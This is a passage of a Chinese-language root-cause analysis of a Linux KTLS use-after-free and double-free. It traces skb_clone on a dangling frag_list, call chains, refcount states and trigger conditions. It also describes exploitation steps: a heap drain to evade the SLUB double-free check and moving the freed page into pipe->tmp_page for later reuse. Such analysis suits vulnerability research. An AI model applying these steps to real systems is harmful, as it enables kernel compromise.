T4.5 结束时，`P1` 的唯一引用从 `pipe->bufs[0].page` 转移到 `pipe->tmp_page`，`_refcount` 保持 1；`H` 位于 CPU 0 freelist 第 `DUMMY_PAIR_COUNT+1` 位，`shinfo(H)`（含 `frags[0] = P1`）未被覆盖。`pipe->tmp_page` 的缓存状态是 T6 能够复用 `P1` 的前提。

**T5 — 二次 recv，skb_clone 悬垂 A_clone**

`n` 由 `skb_clone(A_clone)` 从 `skbuff_head_cache` 分配：`A_clone` 的 `fclone` 为 `SKB_FCLONE_CLONE`，不满足 `skb_clone()` 复用 skb2 槽位的条件（`SKB_FCLONE_ORIG && fclone_ref == 1`），因此 `n` 只能走 `kmem_cache_alloc(skbuff_head_cache)`，其 `fclone` 位域被置为 `SKB_FCLONE_UNAVAILABLE`。`n->head` 从悬垂 `A_clone` 读出 `H`，`shinfo(n)->frags[0]` 也从悬垂 `A_clone` 读出 `P1`——`shinfo(n)` 与 `shinfo(A_clone)` 指向同一块 `H` 尾部的 `skb_shared_info`。

```
tls_sw_context_rx:
  strp.anchor.shinfo:
    frag_list → (仍悬垂)
  async_hold:
    n

sk_buff n (skbuff_head_cache):
  fclone = UNAVAILABLE
  head → H
  shinfo(n)->frags[0] → P1     ← shinfo(n) 与 shinfo(A_clone) 指向同一块内存

H + skb_shared_info:
  dataref = 1                  ← skb_clone 把 0 拉回 1（假引用）

P1:
  _refcount = 1
  引用归属：pipe->tmp_page
```

T5 中 `skb_clone(A_clone)` 从 `skbuff_head_cache` 分配 `n`，从悬垂 `A_clone` 读出 `head = H` 与 `frags[0] = P1`，`dataref` 从 0 拉回 1（假引用）。`n` 挂入 `async_hold`。

**T5 purge — n 释放，H 与 P1 二次释放**

```
H + skb_shared_info:
  dataref = 0                  ← 再次进入 frags 循环
  kfree(H) 第 2 次
    H 仍在 CPU 0 freelist 第 DUMMY_PAIR_COUNT+1 位，不在顶部
    BUG_ON(object == fp) 不触发

P1:
  _refcount = 0                ← put_page 第 2 次（无主释放）
  归还 buddy freelist
  pipe->tmp_page 仍指向 P1

sk_buff n:
  (已释放)
  kfree_skbmem: 直接 kmem_cache_free(skbuff_head_cache, n)
```

T5 结束时 `dataref=0`（`H` 第二次 `kfree`）、`P1->_refcount=0`（无主 `put_page`）、`fclone_ref` 不参与（`n` 位于 `skbuff_head_cache`，没有 fclone 块）。`pipe->tmp_page` 仍指向 `P1`，而 `P1` 已回到 buddy freelist——这是物理页级错位的直接体现。

从 T0 到 T5，对象关系的变化可以概括为一句话：`A` 与 `A_clone` 共享的 `H` 与 `P1` 在 T1.5 只被 `A` 的释放减掉 `fclone_ref`，在 T4 才被 `A_clone` 的释放减掉 `dataref` 与 `page_ref`，在 T4.5 由 dummy `B_head` drain 把 `H` 推离 CPU 0 freelist 顶部、由 recycle 把 `P1` 的引用转移到 `pipe->tmp_page`，在 T5 又被 `n` 的释放各减一次——三次递减分别落在三个不同的时间点，中间穿插两次与递减无关的状态迁移。

#### 2-3-7. 三层释放语义的深入分析

2-3-1 已给出三类计数的管辖范围与归零时的函数；本节只展开 T4 与 T5 两次释放在这三层上各自的状态，不重复计数表。

**`sk_buff` 结构体层：不发生朴素 double-free**

`A_clone` 位于 `skbuff_fclone_cache`，`n` 位于 `skbuff_head_cache`，两者分属不同 slab。`kfree_skbmem(n)` 对 `n` 执行 `kmem_cache_free(skbuff_head_cache, n)`，不会回到 `A_clone` 所在的 fclone 块，因此不会再次 `kfree` `A_clone`。这一层的“不发生”不是偶然，而是 `skb_clone()` 在 `A_clone` 已经释放后必然走 `else` 分支的结果：`A_clone` 的 `fclone` 位域是 `SKB_FCLONE_CLONE`，不满足 `skb_clone()` 复用 skb2 槽位的条件（`SKB_FCLONE_ORIG && fclone_ref == 1`），因此 `n` 只能从 `skbuff_head_cache` 分配。结构体层的“不发生”是后两层能独立发生而不被提前打断的前提。

**`skb->head` 内存层：发生 double-free**

`H` 在 T4 与 T5 各被 `kfree` 一次。T4 的 `kfree(H)` 由 `A_clone` 的 `dataref` 从 1 归零触发；T5 的 `kfree(H)` 由 `n` 的 `dataref` 从 1 归零触发。两次 `kfree` 之间，`n` 的 `skb_clone()` 在 `__skb_clone()` 中执行 `atomic_inc(&shinfo->dataref)`，把 `dataref` 从 0 拉回 1——这一步是第二次 `kfree` 能够发生的关键：若没有这一步，`skb_release_data(n)` 会在 `atomic_sub_return` 处看到 `dataref` 已经为 0，`dataref` 递减后为负数，`atomic_sub_return` 的返回值非零，`skb_release_data` 直接 `goto exit`，`H` 不会被第二次 `kfree`。`skb_clone()` 的假引用把 `dataref` 拉回 1，才使 `skb_release_data(n)` 能够再次进入 frags 循环并再次 `kfree(H)`。

**物理页层：发生 double-free**

`P1` 在 T4 与 T5 各被 `put_page` 一次。T4 的 `put_page` 由 `shinfo(A_clone)->frags[0]` 的合法引用触发，`page_ref` 从 2 降到 1；T5 的 `put_page` 由 `shinfo(n)->frags[0]` 触发，而 `shinfo(n)->frags[0]` 来自对已释放 `A_clone` 的 UAF 读，没有合法引用，`page_ref` 从 1 降到 0。两层 double-free 的差别在于“合法性”：T4 的 `put_page` 有合法持有者（`shinfo(A_clone)->frags[0]`），T5 的 `put_page` 没有合法持有者（`shinfo(n)->frags[0]` 是 UAF 读出的残留值）。这一差别使 T4 的释放是“预期内的引用递减”，而 T5 的释放是“预期外的引用递减”——`P1` 的引用计数被多减一次，pipe 的复用路径仍会拿到它。

三层叠加，才把漏洞的后果从“一次 UAF 读”提升为“可复用的物理页级错位”。结构体层的“不发生”保证了 `n` 的释放能安全走到 `skb_release_data(n)`；在 `skb_release_data(n)` 内部，`skb_clone()` 在 T5 的假引用把 `dataref` 从 0 拉回 1，使 `atomic_sub_return` 再次归零并进入 frags 循环——`put_page(P1)` 1→0 完成 `P1` 的二次释放，随后 `kfree(H)` 完成 `H` 的二次释放（第二次 `kfree(H)` 前需先把 `H` 推离 CPU 0 freelist 顶部——这一步同时规避 `BUG_ON(object == fp)` 并屏蔽 `H->shinfo` 被后续 CPU 0 分配覆盖）。若结构体层也 double-free，崩溃会先于 `H` 与 `P1` 的第二次释放发生；若 `skb->head` 层不发生 double-free（即 `dataref` 无法归零），`skb_release_data(n)` 不会进入 frags 循环，`P1` 的第二次 `put_page` 也无从发生。三层的“不发生”与“发生”是互为前提的。

### 2-4. 关键函数

2-2 按时间线展开四层结构缺失，每一层都涉及若干函数；2-3 展开四层结构体的布局与计数轨迹。本节把两节中提到的函数按 T0–T5 重新组织成完整调用链，只列函数名与调用关系，不展开函数体。调用链中 `->` 表示调用，缩进表示调用层级；同一函数内并列的多次调用用并列子条目列出，不用 `->` 串联；括号内为入口条件或分支说明，不是调用关系。每条链之后附一段说明，指出该链的入口、出口与对三类计数的影响，使读者能从函数视角回看 2-2 与 2-3 中的时间点。

#### 2-4-1. T0/T1：发送与绑定建立

`splice` 把 pipe page 直接送入 TCP 发送路径，与 `write` 写入的 TLS record 在发送侧合并到同一个 `sk_buff`。这条链的入口是 `splice`，出口是 `A_clone` 入队；它对 `fclone_ref` 与 `dataref` 各加一次，对 `P1->page_ref` 加一次。

```
splice
-> do_tcp_sendpages
     -> tcp_build_frag                  (while 循环内多次调用)
          -> tcp_stream_alloc_skb
               -> alloc_skb_fclone
               -> __alloc_skb           (fclone_ref = 1)
          -> get_page                   (本例走 else 分支, P1->_refcount 1 -> 2)
          -> skb_fill_page_desc_noacc   (本例走 else 分支, P1 挂入 frags[0])
     -> tcp_push                        (循环结束后调用)
          -> __tcp_push_pending_frames
               -> tcp_write_xmit
                    -> tcp_transmit_skb
                         -> __tcp_transmit_skb
                              -> skb_clone
                                   -> __skb_clone   (dataref 1 -> 2, fclone_ref 1 -> 2)
```

`tcp_build_frag` 内三次调用是并列关系：先 `tcp_stream_alloc_skb` 得到 `A`，再 `get_page` 把 `P1` 的 `_refcount` 从 1 增到 2，最后 `skb_fill_page_desc_noacc` 把 `P1` 挂入 `frags[0]`；后两步只在 `skb_can_coalesce()` 为假的 `else` 分支执行，本例走该分支。`tcp_push` 在 `do_tcp_sendpages` 的 while 循环结束后调用，不在 `tcp_build_frag` 返回后立即调用。`__tcp_transmit_skb` 的 `clone_it` 为真，`skb_clone` 复用 `A` 所在 fclone 块的 skb2 槽位得到 `A_clone`；`__skb_clone` 对 `dataref` 做 `atomic_inc`，对 `fclone_ref` 做 `refcount_set(2)`。链的终点：`A` 与 `A_clone` 共享 `H` 与 `P1`，`A_clone` 经 loopback 送入 `conn` 的 `sk_receive_queue`。

#### 2-4-2. T1.5：ACK 释放 A

ACK 到达 client 侧，`tcp_ack` 从 `tcp_rtx_queue` 摘除已被 ACK 的 `A` 并释放。这条链的入口是 ACK 到达，出口是 `A` 释放；它对 `fclone_ref` 减一次，对 `dataref` 减一次（但在 `dataref == 1` 处短路），`P1->page_ref` 不变。

```
ACK 到达
-> tcp_ack
-> tcp_clean_rtx_queue
-> tcp_rtx_queue_unlink_and_free
-> __kfree_skb
-> skb_release_all
     -> skb_release_head_state
     -> skb_release_data                     (dataref 2 -> 1, atomic_sub_return 非零)
        |-- 短路, 跳过 frags 循环与 skb_free_head
-> kfree_skbmem                             (fclone_ref 2 -> 1)
```

`tcp_clean_rtx_queue` 操作的是 `tcp_rtx_queue`，与 `conn->sk_receive_queue` 是两条不同的队列；`A` 的释放与 `conn` 侧的 `A_clone` 无关。`skb_release_data(A)` 在 `dataref == 1` 处短路，frags 循环不运行，`P1` 不 `put_page`，`H` 不被 `kfree`；`kfree_skbmem(A)` 把 `fclone_ref` 从 2 减到 1，但 `A_clone` 仍占用 skb2 槽位，整个 fclone 块不释放。链的终点：`conn` 的 `sk_receive_queue` 只剩 `A_clone`。

#### 2-4-3. T2：缓存绑定

数据到达 `conn`，softirq 路径经 `tcp_data_ready` 进入 TLS strparser，把接收队列首 skb 的裸指针存入 anchor 的 `frag_list`，随后回调 `saved_data_ready` 唤醒 tcp reader（wake #1）。这条链的入口是数据到达，出口是 tcp reader 被唤醒；它不改变三类计数，但让 `shinfo(anchor)->frag_list` 指向 `A_clone`。

```
数据到达 conn
-> tcp_data_ready
-> tls_data_ready
-> tls_strp_data_ready
-> tls_strp_check_rcv
-> tls_strp_read_sock
     -> tls_strp_load_anchor_with_queue
          -> tcp_recv_skb                    (first = A_clone)
          |-- shinfo(anchor)->frag_list = A_clone   (裸指针, 不 skb_get)
     -> tls_rx_msg_size                      (full_len = 40)
     |-- strp->stm.full_len = 40
     |-- strp->msg_ready = 1
     -> tls_rx_msg_ready
          -> saved_data_ready                (KTLS 安装前的 tcp_data_ready)
          -> 唤醒 tcp reader                 (wake #1)
```

`tls_strp_read_sock` 内三次调用是顺序关系：先 `tls_strp_load_anchor_with_queue` 把 `A_clone` 存入 `frag_list`，再 `tls_rx_msg_size` 解析 header 设置 `stm.full_len`，最后 `tls_rx_msg_ready` 回调 `saved_data_ready`。`tls_strp_load_anchor_with_queue` 内 `tcp_recv_skb` 按 `copied_seq` 定位首个 skb，返回的是 `A_clone`——`A` 已在 T1.5 释放，队列首只剩 `A_clone`。`shinfo(anchor)->frag_list` 是裸指针赋值，不 `skb_get`，这是 2-2-4 所述“只借用、不持有”的代码落点。tcp reader 被唤醒后，`tcp_recvmsg_locked` 消费 41B 并回到 `sk_wait_data`：

```
tcp_recvmsg
-> tcp_recvmsg_locked
     -> skb_copy_datagram_msg                (拷贝 41B)
-> sk_wait_data                             (回到等待)
```

链的终点：`shinfo(anchor)->frag_list` 指向 `A_clone`，tcp reader 已消费 41B 并重新阻塞在 `sk_wait_data` 上。

#### 2-4-4. T3：首次 recv

主线程首次 `recv` 进入 `tls_sw_recvmsg`，`tcp_inq=768 >= full_len=40`，`tls_strp_msg_load` 不早退，刷新 anchor；`tls_decrypt_sg` 内 `skb_nsg` 与 `skb_to_sgvec` 遍历 `frag_list` 时 `A_clone` 仍存活，因此这两步是安全的；`tls_do_decryption` 走同步路径，AEAD 同步完成并返回 0，`darg->async` 为假，`tls_decrypt_sg` 不进入 `tls_strp_msg_hold` 分支；随后 `copy_to_user(ro_map)` 因 `ro_map` 为 `PROT_READ` 而失败，`tls_rx_one_record` 返回 `-EFAULT`，`tls_sw_recvmsg` 才调用 `tls_err_abort` 唤醒 tcp reader（wake #2）。这条链的入口是 `recv`，出口是 `recv_end` 返回 `-EFAULT`；它不改变三类计数。

```
recv(conn)
-> inet_recvmsg
-> tls_sw_recvmsg
     -> tls_rx_rec_wait
          -> tls_strp_msg_load               (tcp_inq = 768 >= 40, 不早退)
               -> tls_strp_load_anchor_with_queue
               |-- shinfo(anchor)->frag_list 再次写入 A_clone
     -> tls_rx_one_record
          -> tls_decrypt_device              (设备卸载路径, 本例跳过)
          -> tls_decrypt_sw
               -> tls_decrypt_sg
                    -> tls_alloc_clrtxt_skb  (非 ZC 分支, 分配 clear_skb)
                    -> skb_nsg               (统计 sg 数量)
                    -> skb_to_sgvec          (填充 sgin)
                    -> tls_do_decryption     (同步路径, darg->async = false)
                    |-- 返回 0（AEAD 成功），不进入 async 分支
                    -> copy_to_user(ro_map)  (ro_map 为 PROT_READ)
                    |-- 失败, 返回 -EFAULT
     |-- tls_rx_one_record 返回 -EFAULT
     -> tls_err_abort                        (tls_sw_recvmsg 内调用, 非 tls_rx_one_record 内)
          -> sk_error_report                 (唤醒 tcp reader, wake #2)
     -> recv_end
     -> return -EFAULT
```

`tls_rx_rec_wait` 内 `tls_strp_msg_load` 在 `tcp_inq >= full_len` 时不早退，刷新执行，`shinfo(anchor)->frag_list` 再次写入同一个 `A_clone`——这是 T3 与 T2 的差异所在：T2 首次绑定，T3 刷新绑定，两者对象相同，但 T3 的刷新发生在 `tcp_inq=768` 的上下文。`tls_decrypt_sg` 内 `tls_alloc_clrtxt_skb` 在非 ZC 分支为明文分配 `clear_skb`，随后 `skb_nsg`、`skb_to_sgvec`、`tls_do_decryption` 三次顺序调用；前两者遍历 `frag_list` 时 `A_clone` 仍存活，不触发 UAF；`tls_do_decryption` 在同步路径上完成 AEAD 解密并返回 0，`darg->async` 为假，`tls_decrypt_sg` 不进入 `tls_strp_msg_hold` 分支；随后 `tls_decrypt_sg` 把明文拷贝到用户态，`copy_to_user(ro_map)` 因 `ro_map` 为 `PROT_READ` 而失败，`tls_decrypt_sg` 返回 `-EFAULT`，`tls_rx_one_record` 把该值带回 `tls_sw_recvmsg`。`tls_err_abort` 是 `tls_sw_recvmsg` 在 `tls_rx_one_record` 返回负值之后调用的，不是 `tls_rx_one_record` 的内部调用；它设置 `sk_err = -EBADMSG` 并触发 wake #2。`recv()` 返回 `-EFAULT` 是 `tls_rx_one_record` 的 `err` 直接带回 `recv_end` 的结果，与 `tls_err_abort` 的硬编码参数无关。链的终点：`A_clone` 仍存活，tcp reader 被 wake #2 唤醒。

#### 2-4-5. T4：并发消费

tcp reader 被 wake #2 唤醒，`sk_wait_data` 从阻塞中返回，`tcp_recvmsg_locked` 继续 drain 剩余 768B，把 `A_clone` 从 `sk_receive_queue` 摘除并释放。这条链的入口是 tcp reader 被唤醒，出口是 `A_clone` 释放；它对 `fclone_ref` 减一次（归零），对 `dataref` 减一次（归零），对 `P1->page_ref` 减一次。

```
tcp reader 被唤醒 (sk_wait_data 返回)
-> tcp_recvmsg_locked
     -> tcp_eat_recv_skb
          -> __skb_unlink                    (从 sk_receive_queue 摘除 A_clone)
          -> skb_attempt_defer_free
             |-- 同 CPU 分支 (本例走此): __kfree_skb  (同步调用)
             |    -> skb_release_all
             |         -> skb_release_head_state
             |         -> skb_release_data   (dataref 1 -> 0, 进入 frags 循环)
             |              -> __skb_frag_unref
             |                   -> put_page (P1->_refcount 2 -> 1)
             |              -> skb_free_head
             |                   -> kfree      (H 第 1 次)
             |    -> kfree_skbmem            (fclone_ref 1 -> 0)
             |         -> kmem_cache_free    (释放整个 sk_buff_fclones 块)
             |-- 跨 CPU 分支: 挂入 sd->defer_list
                  (稍后) net_rx_action
                       -> skb_defer_free_flush
                            -> __kfree_skb   (展开省略, 与同 CPU 分支相同)
```

`sk_wait_data` 在 `tcp_recvmsg_locked` 的 `do { ... } while` 循环内被调用；它的返回是 tcp reader 从阻塞中被唤醒的结果，是这条链的**入口条件**，不是 `tcp_recvmsg_locked` 的子调用。`skb_attempt_defer_free` 根据 `skb->alloc_cpu` 判断走哪条分支：`cpu` 无效/离线、或与当前 CPU 相同时直接 `__kfree_skb`（`nodefer:` 标签）；仅当 `cpu` 有效且与当前 CPU 不同时，才把 skb 挂入 `sd->defer_list`，`__kfree_skb` 由 `net_rx_action → skb_defer_free_flush` 在 softirq 上下文稍后调用。`A_clone` 在 CPU 0 上分配，tcp reader 继承父进程的 CPU 0 亲和性（子进程 fork 后未改亲和性），二者相同，走 `nodefer` 分支，`__kfree_skb` 在 `tcp_recvmsg_locked` 的同步调用栈内立即执行，T4 结束时 `H` 与 `P1` 的第一次释放已完成。`H` 落在 CPU 0 的 `kmalloc-1k` freelist 顶部，随后由 T4.5 的 dummy `B_head` drain 推离顶部，以避免 T5 第二次 `kfree(H)` 触发 `BUG_ON(object == fp)`，并屏蔽 `H->shinfo` 被其他 CPU 0 分配者覆盖；T4.5 还会把 `P1` 的引用从 `pipe_buffer` 转移到 `pipe->tmp_page`，这是 T6 复用 `P1` 的前提。`skb_release_data` 内 `__skb_frag_unref` 在 frags 循环内调用，对 `frags[0].bv_page` 执行 `put_page`，`P1->_refcount` 从 2 降到 1；`skb_free_head` 在循环之后调用，对 `H` 执行 `kfree`，这是 `H` 的第一次 `kfree`。`kfree_skbmem(A_clone)` 把 `fclone_ref` 从 1 减到 0，走 `kmem_cache_free` 释放整个 `sk_buff_fclones` 块，`A` 与 `A_clone` 两个结构体一并消失。链的终点：`shinfo(anchor)->frag_list` 悬垂，`P1->_refcount = 1`（仅 pipe 持有）。

#### 2-4-6. T5：二次 recv

主线程再次 `recv`，`tcp_inq=0 < full_len=40`，`tls_strp_msg_load` 在 `WARN_ON` 处早退，anchor 不刷新。`tls_decrypt_sg` 内 `skb_nsg` 与 `skb_to_sgvec` 遍历悬垂 `frag_list`，触发 UAF 读；`tls_do_decryption` 异步提交后，`tls_strp_msg_hold` 对悬垂 `A_clone` 执行 `skb_clone` 得到 `n`，`dataref` 从 0 拉回 1。这条链的入口是 `recv`，出口是 `n` 挂入 `async_hold`；它对 `dataref` 加一次（假引用），对 `fclone_ref` 与 `P1->page_ref` 不变。

```
recv(conn)
-> inet_recvmsg
-> tls_sw_recvmsg
     -> tls_rx_rec_wait
          -> tls_strp_msg_load               (tcp_inq = 0 < 40, WARN_ON 早退)
             |-- anchor 不刷新
     -> tls_rx_one_record
          -> tls_decrypt_sw
               -> tls_decrypt_sg
                    -> tls_alloc_clrtxt_skb  (非 ZC 分支, 分配 clear_skb)
                    -> skb_nsg               (遍历悬垂 frag_list, UAF 读)
                    -> skb_to_sgvec          (UAF 读)
                    -> tls_do_decryption     (异步提交, darg->async = true)
                    -> tls_strp_msg_hold     (async 分支内顺序调用)
                         -> skb_clone
                              -> __skb_clone (dataref 0 -> 1, 假引用)
                         -> __skb_queue_tail (n 挂入 async_hold)
```

`tls_strp_msg_load` 在 `tcp_inq=0 < full_len` 时 `WARN_ON` 早退，`strp->stm` 不被清理、`anchor` 不刷新——这是 2-2-5 所述“早退分叉层”的代码落点。`tls_decrypt_sg` 内 `tls_alloc_clrtxt_skb` 为非 ZC 分支分配 `clear_skb`，随后 `skb_nsg` 与 `skb_to_sgvec` 遍历的是 `shinfo(anchor)->frag_list`，而该指针在 T4 已悬垂，这两步是对已释放 `A_clone` 的 UAF 读。`tls_do_decryption` 异步提交后回到 `tls_decrypt_sg`，`darg->async` 为真，进入 `tls_strp_msg_hold` 分支；`tls_strp_msg_hold` 遍历悬垂 `frag_list`，对 `A_clone` 执行 `skb_clone`，`A_clone` 的 `fclone` 位域是 `SKB_FCLONE_CLONE`，不满足 `skb_clone()` 复用 skb2 槽位的条件，`n` 只能从 `skbuff_head_cache` 分配，其 `fclone` 位域被置为 `SKB_FCLONE_UNAVAILABLE`；`__skb_clone` 对 `dataref` 执行 `atomic_inc`，把 `dataref` 从 0 拉回 1。链的终点：`n` 挂入 `ctx->async_hold`，`H->dataref` 被假引用拉回 1。

#### 2-4-7. T5 purge：n 释放

AEAD 异步失败触发 `tls_decrypt_done → tls_err_abort`；主线程在 `recv_end` 处等 `tls_decrypt_async_wait` 返回后，以 `__skb_queue_purge` 释放 `n`。这条链的入口是异步失败，出口是 `recv_end` 返回 `-EBADMSG`；它对 `dataref` 减一次（归零），对 `P1->page_ref` 减一次（归零），对 `fclone_ref` 不变。

```
AEAD 异步失败
-> tls_decrypt_done                         (workqueue 上下文)
     -> tls_err_abort
          -> sk_error_report

主线程 recv_end
-> tls_decrypt_async_wait                   (等待异步完成)
-> __skb_queue_purge
     -> kfree_skb
          -> kfree_skb_reason
               -> __kfree_skb
                    -> skb_release_all
                         -> skb_release_head_state
                         -> skb_release_data  (dataref 1 -> 0, 进入 frags 循环)
                              -> __skb_frag_unref
                                   -> put_page    (P1->_refcount 1 -> 0, 无主释放)
                              -> skb_free_head
                                   -> kfree       (H 第 2 次)
                    -> kfree_skbmem           (n->fclone == UNAVAILABLE)
                         -> kmem_cache_free   (skbuff_head_cache, n)
-> return -EBADMSG
```

`tls_decrypt_done` 在 workqueue 上下文执行，与主线程 `recv_end` 的 `tls_decrypt_async_wait` 是“生产者—消费者”关系：前者完成异步解密并唤醒后者，后者在 `__skb_queue_purge` 中释放 `n`。`skb_release_data(n)` 内 `__skb_frag_unref` 遍历从 UAF 读出的 `frags[0]`，对 `P1` 执行 `put_page`，`P1->_refcount` 从 1 降到 0——这一次 `put_page` 没有合法持有者，是 2-2-9 所述“无主释放”的代码落点；`skb_free_head` 对 `H` 执行 `kfree`，这是 `H` 的第二次 `kfree`。`kfree_skbmem(n)` 因 `n->fclone == SKB_FCLONE_UNAVAILABLE` 直接 `kmem_cache_free(skbuff_head_cache, n)`，不回到 `A_clone` 所在的 fclone 块。链的终点：`P1` 归还 buddy freelist，`pipe->tmp_page` 仍指向 `P1`；`H` 第二次 `kfree`；`n` 直接释放回 `skbuff_head_cache`。

#### 2-4-8. 七条链的交汇点

七条链并非线性串行，而是围绕三个对象交汇。其中 2-4-1 与 2-4-2 是准备链，不直接参与接收队列的消费；参与消费队列交汇的是 2-4-3 到 2-4-7 这六条。三个对象在这七条链上各被触及若干次，每次触及都由不同的函数路径完成：

| 交汇对象                        | 触及时间点与函数                                                                                                                                   |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `A` / `A_clone` 的 `fclone_ref` | T1 `__skb_clone` 升到 2；T1.5 `kfree_skbmem` 降到 1；T4 `kfree_skbmem` 降到 0                                                                      |
| `H` 的 `dataref`                | T1 `__skb_clone` 升到 2；T1.5 `skb_release_data` 降到 1；T4 `skb_release_data` 降到 0；T5 `__skb_clone` 拉回 1；T5 purge `skb_release_data` 降到 0 |
| `P1` 的 `page_ref`              | T0/T1 `get_page` 升到 2；T4 `put_page` 降到 1；T5 purge `put_page` 降到 0                                                                          |

从函数角度看，七条链中参与消费队列交汇的六条可以按“谁在消费接收队列”分成两组：

- **KTLS 消费组**：2-4-3（wake #1）、2-4-4（wake #2 触发）、2-4-6（UAF 消费）、2-4-7（purge）——这四条链经过 `tls_sw_recvmsg` 与 `tls_strp_*`，操作的是 anchor 与 `async_hold`。
- **tcp reader 消费组**：2-4-3 的 tcp reader 侧、2-4-5——这两条链经过 `tcp_recvmsg_locked`，操作的是 `sk_receive_queue`。

两组消费在 T2–T5 上并发执行，才形成 2-2 所述的四层结构缺失。2-4-3 与 2-4-5 之间通过 `sk_wait_data` 的等待队列衔接：T2 的 `saved_data_ready` 把 tcp reader 从 `sk_wait_data` 中唤醒（wake #1），tcp reader 消费 41B 后重新阻塞；T3 的 `tls_err_abort` 经 `sk_error_report` 再次唤醒 tcp reader（wake #2），tcp reader 才进入 T4 的 drain。2-4-4 与 2-4-6 之间通过 `tls_strp_msg_load` 的早退分叉衔接：T3 时 `tcp_inq=768 >= full_len`，刷新执行；T5 时 `tcp_inq=0 < full_len`，早退触发，`anchor` 不刷新——同一函数在两次 `recv` 中的不同分支，决定了 `frag_list` 是被刷新还是被保留为悬垂。

七条链合起来，才把三个对象从 T0/T1 的初始状态一路带到 T5 purge 的终态。若把七条链按时间顺序排列，函数层面的事件次序是：`get_page` → `__skb_clone`（T1）→ `skb_release_data`（T1.5）→ `tcp_recv_skb`（T2）→ `tls_strp_msg_load`（T3，不早退）→ `skb_release_data`（T4）→ `tls_strp_msg_load`（T5，早退）→ `__skb_clone`（T5）→ `skb_release_data`（T5 purge）——这条次序与 2-2-8 的引用计数轨迹一一对应，也与 2-3-6 的对象关系变化一一对应。三节从不同视角描述同一组事件：2-2 从结构缺失的层次，2-3 从对象与计数的状态，2-4 从函数调用的次序；三节互相印证，才构成对整条链的完整描述。

### 2-5. 触发条件

2-2 至 2-4 从结构缺失、对象状态与函数链三个视角描述了整条链。三个视角各有侧重，但都隐含同一组前提：要让这些缺失、状态与调用在 T0–T5 上依次到位，需要满足哪些条件。本节把这组前提汇总成一份清单，按性质分为五类——环境、时序、数据形态、解密路径、内存布局。前四类决定悬垂窗口能否成立，第五类决定悬垂窗口被消费时是否会被提前打断；任一类条件不满足，整条链都会在某一环断开。

#### 2-5-1. 环境条件

环境条件决定内核是否具备让整条链成立的基础设施。缺少任一条件，悬垂窗口或物理页级错位都不会出现。

| 条件                                                                 | 作用                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | 不满足时的后果                 |
| -------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------ |
| `6.0 <= v < 6.3`                                                     | 6.3 的 `skbuff_small_head` 把 `H` 从通用 `kmalloc-1k` 移到专用 cache，`H` 与 `B_head` 仍属同一 cache（1 字节 write 产生的 skb head 同样落在 `SKB_SMALL_HEAD_CACHE_SIZE` 内），dummy `B_head` drain 仍能规避 `BUG_ON(object == fp)` 并屏蔽 `H->shinfo` 被后续分配覆盖；但 SLUB 在 `kfree(H)` 时已把 freelist pointer 写到 `H + 0x140`、覆盖 `nr_frags`——这一覆盖发生在 drain 之前，drain 无法撤销，T5 的 frags 循环行为因此不可控。6.9 的 `skb_data_unref()` 在 `dataref == bias` 处短路，`dataref` 无法归零。两者不在同一版本范围，6.3 已经阻断完整链，6.9 只是让"若 6.3 未阻断"的场景也不成立 | `P1` 或 `H` 的第二次释放不发生 |
| `CONFIG_TLS`                                                         | KTLS 子系统存在                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | ULP 无法挂载                   |
| `CONFIG_CRYPTO_CRYPTD`                                               | 异步 AEAD 路径存在                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | `darg.async` 为假，`n` 不创建  |
| `CONFIG_CRYPTO_CCM` / `CONFIG_CRYPTO_AES`                            | AES-CCM-128 可用                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | `ctx->aead_recv` 为空          |
| socket 侧接受 `MSG_SPLICE_PAGES`，且 pipe buffer 的 `ops` 支持零拷贝 | `P1` 能挂入 `A_clone` 的 `frags[0]`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | 物理页层错位无从发生           |

#### 2-5-2. 时序条件

时序条件决定四层结构缺失能否在 T0–T5 上依次到位。四个条件不是并列的，而是沿 T0 → T1.5 → T2 → T3 → T4 → T5 构成依赖链：前一条件不满足，后一条件即使满足也不会被触发到。

| 条件                                                                 | 时间点       | 不满足时的后果                                                                                                           |
| -------------------------------------------------------------------- | ------------ | ------------------------------------------------------------------------------------------------------------------------ |
| tcp reader 先于 ULP 安装进入 `tcp_recvmsg` 并已阻塞在 `sk_wait_data` | T0 之前      | reader 走 `tls_sw_recvmsg`，2-2-1 的缺口不被触发                                                                         |
| ACK 先于 T4 到达 client                                              | T1.5 早于 T4 | 若 ACK 晚于 T4，`A_clone` 释放时 `dataref` 仍为 2，`dataref 2→1` 短路，frags 循环不运行，`P1` 的第一次 `put_page` 不发生 |
| T3 首次 recv 时 `tcp_inq >= full_len`                                | T3           | 刷新被早退跳过，T3 与 T5 的分叉消失                                                                                      |
| T5 二次 recv 时 `tcp_inq < full_len`                                 | T5           | 早退不触发，`frag_list` 被刷新而非保留悬垂                                                                               |

第二条需要说明的是 `A` 与 `A_clone` 的队列位置：`A` 位于 client 的 `tcp_rtx_queue`（重传队列），`A_clone` 经 loopback 进入 conn 的 `sk_receive_queue`。conn 的接收队列从头到尾只有 `A_clone`，从未有过 `A`；`frag_list` 绑定 `A_clone` 与 ACK 是否到达无关。ACK 的作用只在于释放 `A`、把 `dataref` 从 2 降到 1，使 T4 释放 `A_clone` 时 `dataref` 能从 1 归零、frags 循环能够进入。ACK 若不先于 T4 到达，T4 的 frags 循环不运行，`P1` 的第一次 `put_page` 不发生，整条链在 T4 断掉。

#### 2-5-3. 数据形态条件

数据形态条件决定 2-3 中 T0/T1 的初始状态。发送侧 `write` 与 `splice` 的形态，直接影响 `H` 与 `P1` 在 `A` / `A_clone` 上的挂载方式。

| 条件                                                                                  | 作用                                         | 不满足时的后果               |
| ------------------------------------------------------------------------------------- | -------------------------------------------- | ---------------------------- |
| `write` 与 `splice` 经 `TCP_CORK` / `MSG_MORE` / Nagle 之一合并到写队列尾部的同一 skb | `A_clone` 同时携带 `H` 与 `P1`               | `n` 不会同时持有 `H` 与 `P1` |
| 40B TLS record → `full_len=40`                                                        | `tcp_inq >= 40` 与 `tcp_inq < 40` 的分叉成立 | T3/T5 分叉消失               |
